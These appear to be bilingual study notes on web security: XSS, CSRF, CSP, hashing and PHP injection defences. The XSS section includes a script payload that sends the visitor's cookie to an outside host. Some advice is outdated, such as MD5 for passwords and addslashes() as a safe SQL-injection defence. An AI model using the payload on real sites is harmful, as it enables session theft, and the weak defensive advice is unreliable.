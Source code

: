 # 安全原则
1. data confidentiality: 数据保密
2. data integrity: 数据完整
3. System availability: 系统可用

# XSS (Cross site scripting) 跨站脚本攻击
## 是什么
- 攻击者利用 XSS 漏洞向网站中传入恶意代码，用户访问时，代码会自动执行

```js
//在 A 网站注入下面代码，B 网站会拿到用户在 A 网站的 cookie
<script>window.open("www.b.com?param="+document.cookie)</script>
```

## 怎么办
- 服务端渲染出来的时候，要对 html 进行 encode

# CSRF (Cross-site request forgery) 跨站请求伪造
## 是什么
- 用户登陆 A 网站 ，浏览器有 A 的 cookie，然后登陆 B 网站，B 网站可以诱导用户向 A 网站提交请求，因为已经有了 A 的 cookie，所以请求会被接受

## 怎么办
1. http 请求的 header 里面有一个 referer，里面保存请求的源地址，通过验证源地址来判断
2. 可以在网站表单中加入一个随机的 token，通过验证 token 来判断

# CSP (Content Security Policy)
## 是什么

## 怎么用
- http 头部的 ` Content-Security-Policy `
- mata tag
 


# Hash (散列)
- like a finger print
- 一组输入，通过**散列函数**，得到一组固定长度的输出，
- 输入不同，输出也不同，
- 是一种从任何一种数据中创建小的数字“指纹”的方法
- 可以用来加密存储在数据库的密码
- 常用函数MD5

# PHP prevent SQL injection
1. use place holder in the query 
    - `select * from table where id=?`
    - all the input are seen as one, so it's safe
2. add_slashes() and add quote in the parameter
    - `select * from table where id='{$_GET['id']}'`
    - quote is needed because if someone want to inject, they must close the single quote, 
    but with the add_slashes(), they can not close the single quote so it's safe.
    
# Prevent XSS for PHP
1. clean input
    - addslashes()
2. clean output
    - htmlspecialchar()


# Ref
- [https://segmentfault.com/a/1190000007932293](https://segmentfault.com/a/1190000007932293)
- [http://www.ruanyifeng.com/blog/2016/09/csp.html](http://www.ruanyifeng.com/blog/2016/09/csp.html)